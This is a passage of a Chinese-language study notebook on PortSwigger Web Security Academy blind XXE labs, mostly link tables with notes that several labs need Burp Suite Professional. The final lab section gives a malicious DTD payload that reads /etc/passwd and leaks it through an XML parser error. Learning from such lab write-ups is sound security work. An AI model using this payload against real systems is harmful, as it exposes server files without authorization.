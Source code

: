 之前確實有遇過，不管上傳什麼格式的圖片，都會統一轉成 PNG 的 Parser，但以前沒有這個攻擊手法，不知道原來 XML 跟 SVG 還能這樣搭配使用，真酷

## Lab: Blind XXE with out-of-band interaction

| Dimension | Description                                                                                          |
| --------- | ---------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/xxe/blind#detecting-blind-xxe-using-out-of-band-oast-techniques |
| Lab       | https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction                  |



這題需要 Burp Suite Professional，之後再來解～

## Lab: Blind XXE with out-of-band interaction via XML parameter entities

| Dimension | Description                                                                                                  |
| --------- | ------------------------------------------------------------------------------------------------------------ |
| Document  | https://portswigger.net/web-security/xxe/blind#detecting-blind-xxe-using-out-of-band-oast-techniques         |
| Lab       | https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities |



這題需要 Burp Suite Professional，之後再來解～

## Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD

| Dimension | Description                                                                                        |
| --------- | -------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-exfiltrate-data-out-of-band |
| Lab       | https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration               |



這題需要 Burp Suite Professional，之後再來解～

## Lab: Exploiting blind XXE to retrieve data via error messages

| Dimension | Description                                                                                             |
| --------- | ------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-retrieve-data-via-error-messages |
| Lab       | https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages           |

嘗試

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
